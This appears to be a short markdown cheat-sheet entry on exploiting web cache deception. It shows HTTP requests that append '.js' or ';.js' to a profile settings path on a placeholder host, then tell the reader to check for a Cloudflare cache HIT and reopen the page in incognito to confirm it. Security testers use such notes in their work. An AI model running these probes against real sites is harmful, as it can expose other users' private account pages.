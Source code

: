 # Web Cache Deception

### How to exploit



* Normal Request (For example in the settings profile feature)

```
GET /profile/setting HTTP/1.1
Host: www.vuln.com
```

The response is

```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```

1. Try to add cacheable extension (For example .js / .css / .jpg, etc.)

```
GET /profile/setting/.js HTTP/1.1
Host: www.vuln.com
```

The response is

```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```

If the `Cf-Cache-Status` response the request with `HIT` not `MISS` or `Error`. And then try to open the url in incognito mode

1. Add `;` before the extension (For example `;.js` / `;.css` / `;.jpg`, etc.)

```
GET /profile/setting/;.js HTTP/1.1
Host: www.vuln.com
```

The response is

```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```

If the `Cf-Cache-Status` response the request with `HIT` not `MISS` or `Error`. And then try to open the url in incognito mode
